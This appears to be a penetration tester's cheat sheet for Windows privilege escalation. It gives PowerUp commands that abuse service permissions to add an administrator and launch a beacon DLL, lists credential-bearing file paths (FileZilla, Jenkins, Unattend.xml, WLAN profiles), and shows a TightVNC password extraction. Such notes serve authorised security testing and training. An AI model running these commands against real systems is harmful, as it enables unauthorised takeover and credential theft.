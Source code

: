 # Machine Privilege Escalation
## PowerUp

```powershell
# Check for vulnerable programs and configs
Invoke-AllChecks

# Exploit vulnerable service permissions (does not require touching disk)
Invoke-ServiceAbuse -Name "AbyssWebServer" -Command "net localgroup Administrators domain\user /add"

# Exploit vulnerable service permissions to trigger stable beacon
Write-ServiceBinary -Name 'AbyssWebServer' -Command 'c:\windows\system32\rundll32 c:\Users\Student355\Downloads\go_dll_rtl_x64.dll,Update' -Path 'C:\WebServer\Abyss'
net stop AbyssWebServer
net start AbyssWebServer
```

## Juicy files

There are lots of files that may contain interesting information. Tools like [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) or collections like [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) may help in identifying juicy files (for privesc or post-exploitation).

Below is a list of some files I have encountered to be of relevance. Check files based on the programs and/or services that are installed on the machine.

> In addition, don’t forget to enumerate any local databases with `sqlcmd` or `Invoke-SqlCmd`!

```powershell
# All user folders
## Limit this command if there are too many files ;)
tree /f /a C:\Users

# Web.config
C:\inetpub\www\*\web.config

# Unattend files
C:\Windows\Panther\Unattend.xml

# RDP config files
C:\ProgramData\Configs\

# Powershell scripts/config files
C:\Program Files\Windows PowerShell\

# PuTTy config
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty

# FileZilla creds
C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml

# Jenkins creds (also check out the Windows vault, see above)
C:\Program Files\Jenkins\credentials.xml

# WLAN profiles
C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml

# TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
Get-ItemProperty -Path HKLM:\Software\TightVNC\Server -Name "Password" | select -ExpandProperty Password
```


## Privelleges
> Run `whoami /all`  to check if you have any dangerous privs.
### SE Impersonate
#### Exploit Over HTTP/Named Pipes - Generic Potato
Tool: [micahvandeusen/GenericPotato: Impersonating authentication over HTTP and/or named pipes. (github.com)](https://github.com/micahvandeusen/GenericPotato)

Blogpost: [The Power of SeImpersonation | Micah Van Deusen's Blog](https://micahvandeusen.com/the-power-of-seimpersonation/)


## Tools
[carlospolop/privilege-escalation-awesome-scripts-suite: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors) (github.com)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)